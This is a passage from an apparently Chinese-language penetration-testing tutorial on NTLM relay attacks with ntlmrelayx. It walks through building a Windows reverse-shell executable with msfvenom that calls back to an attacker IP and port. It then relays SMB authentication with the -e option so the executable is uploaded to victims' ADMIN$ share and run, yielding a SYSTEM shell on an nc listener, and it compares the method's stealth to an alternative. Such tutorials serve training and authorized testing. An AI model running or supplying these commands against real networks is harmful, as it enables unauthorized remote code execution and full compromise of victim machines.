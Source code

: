 
![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182825173-1762927240.png)

回到 nc 监听器，我们便得到了一个 SYSTEM shell！

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182824707-672756670.png)

#### **

4.4、命令用法四：本地管理员用户 + 命令执行 2

**

使用 ntlmrelayx 获取 Shell 的另一种技术是添加 **\-e** 选项，此选项会自动将攻击者的机器的恶意 EXE 文件传输到受害者机器并执行。

首先，我们使用 **msfvenom** 来制作一个反向 shell 程序：

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f exe -o shell.exe
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182824195-1704414341.png)

接着，在 443 端口上启动 nc 监听器，同时以下面的方式启动 ntlmrelayx：

    ntlmrelayx.py -tf SMB_IPs.txt -smb2support -e ./shell.exe
    

待中继攻击开始之后，我们可以看到该文件被随机命名并上传到了受害机的 `ADMIN$` 共享中，然后在受害机上被执行。（而这也与 psexec 使用的技术很相似）

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182825251-1408746105.png)

回到 nc 监听器，我们得到了一个 SYSTEM shell！

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250530182825072-4311646.png)

> 虽然这种技术相当简单，但因它会将文件下载到受害者机器的磁盘上，因此它的隐蔽性不如**使用 -c + Nishang 脚本获取 Shell 的方式**好。